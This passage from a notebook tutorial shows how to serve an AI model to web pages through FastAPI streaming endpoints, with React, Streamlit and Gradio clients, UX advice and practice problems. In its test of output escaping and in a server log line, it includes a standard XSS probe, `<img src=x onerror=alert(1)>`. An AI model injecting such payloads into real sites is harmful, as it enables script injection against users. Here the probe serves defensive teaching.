            res = subprocess.run(cmd, capture_output=True, text=True, timeout=90)
            if shot.exists():
                display(Image(filename=str(shot), width=900))
            else:
                print("Chrome ran but produced no screenshot (exit code", res.returncode, ")")
        except (subprocess.TimeoutExpired, OSError) as e:
            print("Screenshot skipped:", type(e).__name__)

**What just happened?** Chrome loaded the page, the status bar called `/health`, card 1 called `/predict` (with the confidence bar and the 👍/👎 buttons), card 4 opened a WebSocket and streamed a chat reply, and card 3 streamed a reply over SSE. The prompt `<img src=x onerror=alert(1)>` appears **literally as text** in the streamed answer: no image element, no script. The chat greeting *"Hello! Can you help me?"* has no clear sentiment, so the classifier was unsure and the reply opened neutrally ("Thanks for writing.") instead of guessing. Card 2 is empty because a page cannot pick a file from your disk by itself (that requires a user action, by design).

### 7.11 Optional: the same endpoint with a real local LLM

If `Qwen/Qwen2.5-0.5B-Instruct` is in your Hugging Face cache, we start a **second** server with `LLM_BACKEND=qwen` and call the **same** `/stream` endpoint. Nothing in the frontend changes. Loading the model takes several seconds and generating 40 tokens on a CPU takes a few more, which is exactly why streaming matters. If the model is not cached, this cell is skipped (we never download anything).

In [21]:
try:
    import transformers  # noqa: F401  (only checking that it is installed)
    HAVE_TRANSFORMERS = True
except ImportError:
    HAVE_TRANSFORMERS = False

if not (QWEN_CACHED and HAVE_TRANSFORMERS):
    print("Qwen2.5-0.5B-Instruct (or transformers) not available locally: skipping the real-LLM demo.")
else:
    qwen_server = LocalServer(WORK, free_port(start=PORT + 1),
                              env={"LLM_BACKEND": "qwen", "HF_HUB_OFFLINE": "1", "TRANSFORMERS_VERBOSITY": "error"})
    try:
        t0 = time.perf_counter()
        qwen_server.start(timeout_s=240)
        print(f"Qwen server ready after {time.perf_counter() - t0:.1f} s (model loading)")
        t0 = time.perf_counter()
        ttft, pieces = None, []
        with httpx.stream("GET", qwen_server.url + "/stream", params={"prompt": "My order arrived broken. What can I do?"},
                          timeout=120) as r:
            for event, data in iter_sse(r):
                if event == "meta":
                    print("meta:", json.loads(data))
                elif event == "token":
                    ttft = ttft or time.perf_counter() - t0
                    pieces.append(json.loads(data)["token"])
        print("reply:", "".join(pieces).strip())
        print(f"{len(pieces)} pieces, time to first token {ttft:.2f} s, total {time.perf_counter() - t0:.2f} s")
    finally:
        qwen_server.stop()                                  # always stop the second server
        print("Qwen server stopped:", not qwen_server.running)

Qwen server ready after 29.8 s (model loading)


meta: {'sentiment': 'negative', 'backend': 'qwen'}


reply: If your order has arrived broken, you should contact the shipping company to report it as an issue and request a replacement.
22 pieces, time to first token 14.69 s, total 44.71 s


Qwen server stopped: True


### 7.12 Stop the server (always)

`try/finally` guarantees the stop even if the last check fails. Afterwards we confirm that the process has exited and that the port is free again.

In [22]:
try:
    final_stats = httpx.get(BASE + "/health").json()["stats"]
    print("final counters:", final_stats)
    print("\nlast lines of the server log:")
    print(server.log_tail(6))
finally:
    server.stop()

print("server process exited:", not server.running, "| exit code:", server.proc.returncode)
with socket.socket() as s:
    port_free = s.connect_ex(("127.0.0.1", PORT)) != 0          # nothing answers any more
print(f"port {PORT} free again:", port_free)
assert not server.running and port_free

final counters: {'predictions': 207, 'streams_started': 4, 'streams_completed': 2, 'streams_cancelled': 2, 'chat_messages': 3}

last lines of the server log:
INFO:     127.0.0.1:56116 - "WebSocket /chat" [accepted]
INFO:     connection open
INFO:     127.0.0.1:34214 - "GET /stream?prompt=%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3E%20my%20order%20arrived%20broken%20and%20the%20box%20was%20wet%2C%20what%20now%3F HTTP/1.1" 200 OK
INFO:     127.0.0.1:34218 - "GET /favicon.ico HTTP/1.1" 404 Not Found
INFO:     connection closed
INFO:     127.0.0.1:43304 - "GET /health HTTP/1.1" 200 OK



server process exited: True | exit code: -15
port 8250 free again: True


---
## 8. The same UI in React (code listing, not executed)

> **In plain words:** the same streaming box written with React, the most widely used tool for building web pages.

Most production frontends use a framework such as **React** (often via Next.js or Vite). The component below streams from our `/stream` endpoint with `fetch` and a **`ReadableStream`** instead of `EventSource`. Why would you do that?

- `fetch` can use **POST** with a JSON body (long prompts, chat history) and **custom headers** (`Authorization: Bearer ...`); `EventSource` can do neither.
- `AbortController` gives you a clean **Stop** button.
- The cost: you parse the SSE format yourself (split on blank lines, read `event:`/`data:` lines), exactly what our Python `iter_sse` does.

```jsx
// StreamingReply.jsx  (React 18/19, e.g. created with `npm create vite@latest`)
import { useRef, useState } from "react";

const API = import.meta.env.VITE_API_URL ?? "http://localhost:8250";   // origin must be in ALLOWED_ORIGINS

export default function StreamingReply() {
  const [prompt, setPrompt] = useState("My order arrived broken");
  const [text, setText] = useState("");
  const [status, setStatus] = useState("idle");          // idle | streaming | done | cancelled | error
  const [error, setError] = useState("");
  const controllerRef = useRef(null);

  async function generate() {
    controllerRef.current?.abort();                       // cancel a previous request, if any
    const controller = new AbortController();
    controllerRef.current = controller;
    setText(""); setError(""); setStatus("streaming");
    try {
      const res = await fetch(`${API}/stream?prompt=${encodeURIComponent(prompt)}`, { signal: controller.signal });
      if (!res.ok) throw new Error(`HTTP ${res.status}`);
      const reader = res.body.pipeThrough(new TextDecoderStream()).getReader();
      let buffer = "";
      while (true) {
        const { value, done } = await reader.read();      // one network chunk (may hold 0, 1 or many events)
        if (done) break;
        buffer += value;
        const events = buffer.split("\n\n");              // an SSE event ends with a blank line
        buffer = events.pop();                            // keep the incomplete last part for the next chunk
        for (const evt of events) {
          const lines = evt.split("\n");
          const type = lines.find((l) => l.startsWith("event:"))?.slice(6).trim() ?? "message";
          const data = lines.filter((l) => l.startsWith("data:")).map((l) => l.slice(5).trim()).join("\n");
          if (type === "token") setText((t) => t + JSON.parse(data).token);
          if (type === "done") setStatus("done");
        }
      }
    } catch (err) {
      if (err.name === "AbortError") setStatus("cancelled");
      else { setError(err.message); setStatus("error"); }
    }
  }

  return (
    <section aria-busy={status === "streaming"}>
      <label htmlFor="prompt">Prompt</label>
      <input id="prompt" value={prompt} maxLength={500} onChange={(e) => setPrompt(e.target.value)} />
      <button onClick={generate} disabled={status === "streaming" || !prompt.trim()}>Generate</button>
      <button onClick={() => controllerRef.current?.abort()} disabled={status !== "streaming"}>Stop</button>
      {/* {text} is rendered as TEXT: React escapes it. Never pass model output to dangerouslySetInnerHTML. */}
      <p style={{ whiteSpace: "pre-wrap" }}>{text}</p>
      {status === "error" && <p role="alert">Something went wrong: {error}</p>}
      <p aria-live="polite">{status === "done" ? "Answer complete." : status === "cancelled" ? "Stopped." : ""}</p>
    </section>
  );
}
```

Notes:
- The React dev server runs on a **different origin** (`http://localhost:5173`), which is why our API's default `ALLOWED_ORIGINS` contains it. The alternative is a dev-server **proxy** (`server.proxy` in `vite.config.js`), so the browser only ever talks to one origin.
- In production you usually build the React app to static files (`npm run build`) and serve them from the same domain as the API (a CDN or `StaticFiles`), so CORS is not needed at all.
- `aria-live="polite"` announces "Answer complete" once; we do **not** make the streaming paragraph a live region, because a screen reader announcing every token is unusable.

---
## 9. The same UI in Streamlit and Gradio (code listings, not executed)

> **In plain words:** two Python-only tools that build a chat page for you in about 20 lines.

[`16_Deployment/02_streamlit_gradio.ipynb`](../16_Deployment/02_streamlit_gradio.ipynb) puts the model *inside* the Streamlit/Gradio process. Here we use them as **thin clients of the same API**: the UI process calls `/stream` server-to-server (so there is no CORS), and the model stays behind one API that the mobile app and the React site can share.

**Streamlit** (`streamlit run streamlit_app.py`):

```python
import json
import httpx
import streamlit as st

API = "http://127.0.0.1:8250"

def stream_tokens(prompt):
    # Yield tokens from our SSE endpoint; st.write_stream renders them as they arrive.
    with httpx.stream("GET", f"{API}/stream", params={"prompt": prompt}, timeout=60) as r:
        r.raise_for_status()
        event = "message"
        for line in r.iter_lines():
            if line.startswith("event:"):
                event = line[6:].strip()
            elif line.startswith("data:") and event == "token":
                yield json.loads(line[5:])["token"]

st.title("Support assistant")
if "history" not in st.session_state:          # Streamlit re-runs the whole script on every interaction
    st.session_state.history = []
for msg in st.session_state.history:
    with st.chat_message(msg["role"]):
        st.write(msg["content"])                 # Streamlit escapes HTML unless unsafe_allow_html=True

if prompt := st.chat_input("Describe your problem"):
    st.session_state.history.append({"role": "user", "content": prompt})
    with st.chat_message("user"):
        st.write(prompt)
    with st.chat_message("assistant"):
        try:
            reply = st.write_stream(stream_tokens(prompt))      # returns the full text when finished
        except httpx.HTTPError as e:
            reply = "Sorry, the assistant is unavailable right now."
            st.error(f"API error: {e}")
    st.session_state.history.append({"role": "assistant", "content": reply})
```

**Gradio** (`python gradio_app.py`, then open http://127.0.0.1:7860):

```python
import json
import httpx
import gradio as gr

API = "http://127.0.0.1:8250"

def respond(message, history):
    # A generator: every `yield` replaces the assistant's message with the longer text.
    reply = ""
    with httpx.stream("GET", f"{API}/stream", params={"prompt": message}, timeout=60) as r:
        event = "message"
        for line in r.iter_lines():
            if line.startswith("event:"):
                event = line[6:].strip()
            elif line.startswith("data:") and event == "token":
                reply += json.loads(line[5:])["token"]
                yield reply

demo = gr.ChatInterface(fn=respond, title="Support assistant")
demo.launch()
```

### Which one should you choose?

| Option | Best for | Strengths | Weaknesses |
|---|---|---|---|
| **Vanilla HTML + JS** (section 6) | Small internal tools, a page shipped with your API, learning | No build step, no dependencies, full control, tiny | Gets messy beyond a few screens; you hand-write state handling |
| **React** (or Vue/Svelte, Next.js) | Customer-facing products, many screens, a frontend team | Components, huge ecosystem, best UX control, works with any backend | Separate build/deploy, JavaScript tooling to learn |
| **Streamlit** | Data apps and dashboards by Python developers, internal demos | Pure Python, fast to build, good charts and tables | Re-runs the script on each interaction; limited layout/UX control; one Python process per session |
| **Gradio** | ML demos (text, image, audio in/out), Hugging Face Spaces | Pure Python, ready-made chat/image/audio components, sharable links, API auto-generated | Less flexible for multi-page products and custom design |

Rule of thumb: **demo or internal tool → Gradio/Streamlit; product used by customers → a real frontend (React or similar) talking to your API**. Keep the model behind one API either way.

---
## 10. UX for AI features

> **In plain words:** an AI feature must feel fast, be honest when it is unsure, be easy to stop, and work for everyone.

An AI feature can be accurate and still feel broken. These are the habits that make it feel good.

### 10.1 Latency budgets

Jakob Nielsen's classic response-time limits (1993, still valid):

| Response time | How it feels | What the UI should do | AI example |
|---|---|---|---|
| < 0.1 s | Instant | Nothing special | Autocomplete, our `/predict` |
| 0.1–1 s | Noticeable, flow not broken | Disable the button, small spinner | Classification, embedding search |
| 1–10 s | Attention starts to drift | **Stream** partial results or show progress; offer **Stop** | LLM answers, RAG |
| > 10 s | Users switch tasks | Run as a **background job**, notify when done (email, toast, webhook) | Long reports, batch scoring, video generation |

A **latency budget** splits the target across the pipeline, e.g. for a chat answer *TTFT ≤ 800 ms* = 50 ms network + 50 ms auth/validation + 200 ms retrieval + 500 ms until the LLM's first token. Every team then knows its share.

The chart below uses the numbers we measured in section 7.5 to show why streaming changes the *perceived* wait.



In [23]:
ttft_ms, total_ms = STREAM_TIMES["ttft_s"] * 1000, STREAM_TIMES["total_s"] * 1000
fig, ax = plt.subplots(figsize=(9, 2.6))
ax.barh(["without streaming", "with streaming"], [total_ms, ttft_ms], color=["#b42318", "#067647"],
        label="user sees nothing (waiting)")
ax.barh(["with streaming"], [total_ms - ttft_ms], left=[ttft_ms], color="#9ec5fe", label="user is already reading")
for y, x in [(0, total_ms), (1, ttft_ms)]:
    ax.text(x + 10, y, f"first text after {x:.0f} ms", va="center")
ax.set_xlabel("time since the click (ms), measured on our server")
ax.set_xlim(0, total_ms * 1.4)
ax.set_title(f"Same reply ({STREAM_TIMES['n_tokens']} tokens), very different waiting experience")
ax.legend(loc="upper center", bbox_to_anchor=(0.5, -0.32), ncol=2, fontsize=8, frameon=False)
plt.tight_layout()
plt.show()

### 10.2 Streaming, cancel and errors

- **Stream** anything longer than about a second, and show a "thinking" indicator until the first token.
- Always offer **Stop**. It respects the user's time and, if the server reacts to the disconnect (section 7.6), it saves compute.
- **Errors are part of the design:** a timeout message with a *Retry* button, a 429 "too many requests, try again in 20 s" (read the `Retry-After` header), and keeping the partial answer when a stream breaks (our `onerror` handler does this).
- **Disable** the send button while a request runs to prevent double submits, but keep the text the user typed.

### 10.3 Showing uncertainty honestly

- Show **confidence** in plain words ("not sure") rather than raw probabilities, and only if the model is reasonably **calibrated** (see [model calibration](../03_Machine_Learning/01_supervised/13_model_calibration.ipynb)); for guaranteed coverage see [prediction sets with human review](../03_Machine_Learning/14_conformal_prediction/02_industry_prediction_sets_with_human_review.ipynb).
- Below a threshold, **abstain** or ask a human ("We could not classify this ticket automatically; it has been sent to the team").
- For LLM answers, show **sources** (RAG citations, like the chips in [`21_Projects/02_rag_chatbot`](../21_Projects/02_rag_chatbot/templates/index.html)) and label AI-generated content as such.

### 10.4 Feedback (👍/👎) logging

Feedback is your cheapest source of evaluation data. Log **what the model saw, what it answered, the model version and the rating**, then review the 👎 cases every week and turn them into test cases. Here is what our two feedback requests from section 7.9 stored:

In [24]:
feedback = pd.read_json(WORK / "feedback.jsonl", lines=True)
print(feedback[["model_version", "request_text", "model_output", "rating", "comment"]].to_string(index=False))
print(f"\nthumbs-down rate: {(feedback['rating'] == 'down').mean():.0%} of {len(feedback)} ratings")

        model_version           request_text  model_output rating      comment
sentiment-tfidf-lr-v1          It is a lamp. positive 0.56   down neutral text
sentiment-tfidf-lr-v1 The kettle works great positive 0.81     up             

thumbs-down rate: 50% of 2 ratings


> ⚠️ **Common mistake:** logging feedback without the **model version** and the **input**. Without them you cannot tell whether last week's 👎 spike came from the new model, a new kind of user, or a bug. Also remember privacy: inputs can contain personal data, so apply retention limits and redaction (see [privacy](../19_AI_Ethics_and_Safety/03_privacy.ipynb)).

### 10.5 Accessibility checklist (what our page does)

| Practice | In our page |
|---|---|
| Every input has a visible `<label for=...>` | ✔ |
| Buttons are real `<button>` elements, usable with the keyboard; visible focus ring (`:focus-visible`) | ✔ |
| Results announced to screen readers with `aria-live="polite"`; the token stream itself is **not** a live region | ✔ |
| `aria-busy` while loading; status messages in `role="status"` | ✔ |
| Icon-only buttons (👍/👎) have an `aria-label` | ✔ |
| Information is not conveyed by colour alone (the result text says "Positive"/"Negative" and "not sure") | ✔ |
| Sufficient colour contrast (WCAG 2.2 AA: 4.5:1 for normal text) | dark text on white |

---
## 11. Deployment options

> **In plain words:** where the page, the server and the model live once real users arrive.

| Option | What runs where | Good for | Watch out for |
|---|---|---|---|
| **One service** (our setup): FastAPI serves the API and the static page | One container / VM | Small apps, internal tools | Scale UI and model together |
| **Static frontend on a CDN + API service** | HTML/JS on a CDN (or object storage), API in containers | Most production web apps | CORS or a shared domain with path routing (`/api/*`) |
| **API + separate model server** | API (CPU) calls vLLM/TGI/Triton on GPUs | LLMs, heavy models | One more network hop; queueing and timeouts |
| **Hugging Face Spaces / Streamlit Community Cloud** | Gradio or Streamlit app | Demos, portfolios | Limited resources, public by default |
| **Serverless** (functions, Cloud Run) | API scales to zero | Spiky traffic | Cold starts (model loading!), WebSocket and streaming limits differ by platform |

Streaming and WebSockets need **proxy settings**. A typical nginx snippet:

```nginx
location /stream {                       # Server-Sent Events
    proxy_pass http://api:8000;
    proxy_buffering off;                 # otherwise nginx collects tokens and sends them all at the end
    proxy_read_timeout 1h;
}
location /chat {                         # WebSockets need the HTTP/1.1 Upgrade handshake forwarded
    proxy_pass http://api:8000;
    proxy_http_version 1.1;
    proxy_set_header Upgrade $http_upgrade;
    proxy_set_header Connection "upgrade";
    proxy_read_timeout 1h;
}
```

Where to go next in this repo:
- [Deployment concepts](../16_Deployment/01_deployment_concepts.ipynb), [serverless](../16_Deployment/03_serverless_deployment.ipynb), [edge deployment](../16_Deployment/04_edge_deployment.ipynb) (on-device models), [safe rollouts](../16_Deployment/05_industry_safe_model_rollout_strategies.ipynb)
- [Docker basics](../17_Docker/01_docker_basics.ipynb), [Docker for ML](../17_Docker/02_docker_for_ml.ipynb), [containerising an ML service](../17_Docker/04_industry_containerizing_an_ml_service.ipynb)
- [A production-grade ML API](../12_FastAPI/04_industry_production_ml_api.ipynb) (auth, structured logging, tests, load test)
- [Cloud ML architecture and cost planning](../18_Cloud/05_industry_cloud_ml_architecture_and_cost_planning.ipynb)

---
## 12. 🔗 How this connects to modern AI

> **In plain words:** everything you built here is a small copy of what ChatGPT-style apps do.

| What we built | Where you see it in real AI products |
|---|---|
| SSE token streaming with `event:`/`data:` lines | The OpenAI, Anthropic and Gemini APIs stream responses with SSE; every chat UI parses them like our `iter_sse` |
| `fetch` + `ReadableStream` + `AbortController` | Chat frontends such as the Vercel AI SDK's `useChat`; the Stop button in ChatGPT/Claude-style apps |
| WebSocket chat with per-connection history | Real-time and voice APIs (OpenAI Realtime over WebSocket/WebRTC, live transcription) |
| Adapter: fake LLM ↔ local Qwen behind one interface | LLM gateways (LiteLLM, provider adapters) that let you swap models without touching the UI |
| Escaping model output + CSP | OWASP Top 10 for LLM applications: *improper output handling* |
| 👍/👎 feedback with model version | RLHF / preference data collection, online evaluation dashboards ([LLM evaluation](../08_LLM/08_evaluation/)) |
| On-device exception (WebGPU, ONNX Runtime Web) | Chrome's built-in AI APIs, WebLLM, Transformers.js |

The next notebook builds a complete AI feature end to end in a realistic team setting: spec, clean architecture, tests, profiling, security review, API + page, logging, CI and rollout.

---
## 13. Recap

> **In plain words:** the key ideas on one screen, then practice.

- A web AI app has four parts: **browser**, **frontend** (runs in the browser, readable by anyone), **API** (your server: validation, auth, logging) and **model** (behind the API). Keep secrets and decisions on the server; on-device models (WebGPU/WASM) are the exception for privacy/offline use.
- **fetch + JSON** for quick predictions, **multipart** for files, **SSE** for streaming tokens (server → client, auto-reconnect: send `done` and close), **WebSockets** for two-way chat (check `Origin` yourself).
- FastAPI gives you validation (`422` with details), `UploadFile`, `StreamingResponse`, WebSockets, CORS middleware and static files in one app. Load the model once in the **lifespan**.
- In the browser: a `fetch` wrapper with **timeouts and readable errors**, **loading states**, a **Stop** button, and **`textContent`** (or escaping) for every piece of model output; a **CSP** adds a second wall against XSS.
- **CORS is a browser rule, not security.** An origin is (scheme, host, port).
- Measure **p95 latency** and **time to first token**; stream anything over ~1 s; show uncertainty; log feedback with the model version; build accessible UIs.
- Always **stop the servers you start**, and only those.

## Practice problems

**1. (Easy, concept)** Your page streams an answer with `EventSource`, and you notice in the server logs that every prompt is answered three times. What is happening, and what are two ways to fix it?

<details><summary>Show solution</summary>

`EventSource` reconnects automatically when the response ends, so after each completed answer the browser requests `/stream` again and the model generates the answer again (after the `retry` delay). Fixes: (1) send a final `done` event and call `source.close()` in its handler (what our page does); (2) use `fetch` + `ReadableStream`, which never reconnects on its own. You can also make the endpoint idempotent with a request id so that a reconnect resumes or returns the cached answer (the SSE `id:` field and the `Last-Event-ID` header exist for this).
</details>

**2. (Easy, concept)** A React app on `http://localhost:5173` calls your API on `http://localhost:8000`. The browser console says *"blocked by CORS policy"*, but the same request works in Python. Explain why, and give the exact FastAPI fix.

<details><summary>Show solution</summary>

The two URLs are different **origins** (different ports). Browsers only let a page read a cross-origin response if the server includes `Access-Control-Allow-Origin` for that origin (after a preflight `OPTIONS` for JSON POSTs). Python does not enforce CORS, so it works there. Fix:

```python
app.add_middleware(CORSMiddleware, allow_origins=["http://localhost:5173"],
                   allow_methods=["GET", "POST"], allow_headers=["Content-Type"])
```
(or a Vite dev proxy so the browser only talks to one origin). Do not use `"*"` with credentials.
</details>

**3. (Medium, concept)** Pick a transport (fetch/JSON, multipart, SSE, WebSocket, background job + polling) for: (a) a "summarise this PDF" button for 3-page PDFs; (b) a voice assistant that sends microphone audio and receives speech while the user is still talking; (c) a chat answer from an LLM; (d) re-scoring 2 million customer records.

<details><summary>Show solution</summary>

(a) **multipart upload**, and stream the summary back with SSE (or return JSON if it takes under ~1 s). (b) **WebSocket** (or WebRTC): data flows in both directions at the same time. (c) **SSE** (or `fetch` + `ReadableStream`): one request, many tokens back. (d) a **background job**: the request returns a job id immediately (`202 Accepted`), and the UI polls `GET /jobs/{id}` or gets a notification/webhook; no HTTP request should stay open for that long.
</details>

**4. (Medium, coding)** Our `iter_sse` must handle a `data` field spread over several lines and keep-alive comments. Without running the server, test it on this raw stream and predict the output: `": ping"`, `"event: token"`, `"data: line one"`, `"data: line two"`, `""`, `"data: plain"`, `""`.

<details><summary>Show solution</summary>

```python
class FakeResponse:                       # anything with iter_lines() works
    def __init__(self, lines): self.lines = lines
    def iter_lines(self): return iter(self.lines)

raw = [": ping", "event: token", "data: line one", "data: line two", "", "data: plain", ""]
print(list(iter_sse(FakeResponse(raw))))
# [('token', 'line one\nline two'), ('message', 'plain')]
```
The comment is skipped, the two `data:` lines are joined with a newline, and an event without an `event:` field gets the default name `message`.
</details>

**5. (Medium, coding)** Add `POST /predict_batch` that accepts `{"texts": [...]}` with 1 to 32 non-empty strings and returns one prediction per text. Use pydantic to enforce the limits and call `predict_proba` **once** for the whole batch.

<details><summary>Show solution</summary>

```python
from typing import Annotated
from pydantic import BaseModel, Field, StringConstraints

Text = Annotated[str, StringConstraints(min_length=1, max_length=2000)]

class BatchRequest(BaseModel):
    texts: list[Text] = Field(min_length=1, max_length=32)

@app.post("/predict_batch")
def predict_batch(req: BatchRequest):
    probas = app.state.model.predict_proba(req.texts)        # one call: much faster than a loop
    classes = app.state.model.classes_
    return {"model_version": MODEL_VERSION,
            "results": [{"label": str(classes[p.argmax()]), "confidence": round(float(p.max()), 4),
                         "low_confidence": float(p.max()) < LOW_CONFIDENCE} for p in probas]}
```
An empty list, 33 texts or an empty string each return `422`. Batching matters because most of the cost of one `predict_proba` call is fixed overhead (input checks, vectoriser setup), which is paid once per call instead of once per text.
</details>

**6. (Hard, coding)** Protect `/stream` with a per-client **token-bucket rate limiter**: each client IP gets a bucket of 5 tokens that refills at 1 token per second; a request costs 1 token; an empty bucket returns **429** with a `Retry-After` header. Write it as a FastAPI dependency.

<details><summary>Show solution</summary>

```python
import math, time
from fastapi import Depends, HTTPException, Request

class TokenBucket:
    def __init__(self, capacity=5, refill_per_s=1.0):
        self.capacity, self.rate = capacity, refill_per_s
        self.state = {}                                   # client -> (tokens, last_time)

    def take(self, key, now=None):
        now = time.monotonic() if now is None else now
        tokens, last = self.state.get(key, (self.capacity, now))
        tokens = min(self.capacity, tokens + (now - last) * self.rate)   # refill since the last request
        if tokens < 1:
            self.state[key] = (tokens, now)
            return False, math.ceil((1 - tokens) / self.rate)            # seconds until 1 token is back
        self.state[key] = (tokens - 1, now)
        return True, 0

bucket = TokenBucket()

def rate_limit(request: Request):
    ok, wait = bucket.take(request.client.host)
    if not ok:
        raise HTTPException(429, "Too many requests", headers={"Retry-After": str(wait)})

@app.get("/stream", dependencies=[Depends(rate_limit)])
async def stream(prompt: str = Query(min_length=1, max_length=500)):
    ...
```
Six quick requests: five succeed, the sixth gets 429 with `Retry-After: 1`. In production, keep the buckets in Redis so all API replicas share them, and key them by user/API key rather than IP when users are logged in (many users can share one IP).
</details>

**7. (Hard, design)** Your LLM feature has p50 TTFT 0.4 s but p95 TTFT 6 s. List three plausible causes and how you would confirm each.

<details><summary>Show solution</summary>

(1) **Queueing** on the model server when traffic spikes: plot TTFT against concurrent requests / queue length. (2) **Long prompts** (big chat histories or many RAG chunks): the prefill time grows with input tokens; plot TTFT against input token count. (3) **Cold starts** (autoscaled replicas loading the model, or serverless): check whether slow requests hit freshly started instances. Others: a slow retrieval step before generation (trace each step with spans), proxy buffering (TTFT ≈ total time is the giveaway), or a noisy neighbour on a shared GPU.
</details>

## Further reading

- MDN Web Docs: [Using server-sent events](https://developer.mozilla.org/en-US/docs/Web/API/Server-sent_events/Using_server-sent_events), [The WebSocket API](https://developer.mozilla.org/en-US/docs/Web/API/WebSockets_API), [CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CORS), [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP)
- FastAPI docs: [CORS](https://fastapi.tiangolo.com/tutorial/cors/), [Request files](https://fastapi.tiangolo.com/tutorial/request-files/), [WebSockets](https://fastapi.tiangolo.com/advanced/websockets/), [Static files](https://fastapi.tiangolo.com/tutorial/static-files/)
- WHATWG HTML Living Standard, section *Server-sent events* (the exact `event:`/`data:`/`retry:` parsing rules)
- OWASP: [Cross Site Scripting Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) and the [OWASP Top 10 for LLM Applications](https://genai.owasp.org/llm-top-10/)
- Jakob Nielsen, *Usability Engineering* (1993), chapter 5 (response-time limits); Google *People + AI Guidebook* (designing AI UX)
- Kleppmann, *Designing Data-Intensive Applications*, chapter 4 (encoding and dataflow through services)

**Previous notebook:** [09 · System design fundamentals](09_system_design_fundamentals.ipynb) · **Next notebook:** [11 · 🏭 Industry: building and shipping an AI feature](11_industry_building_and_shipping_an_ai_feature.ipynb)

In [25]:
# Clean up: the server is already stopped; delete the temporary project folder.
assert not server.running
shutil.rmtree(WORK, ignore_errors=True)
print("Temporary files removed:", not WORK.exists())

Temporary files removed: True
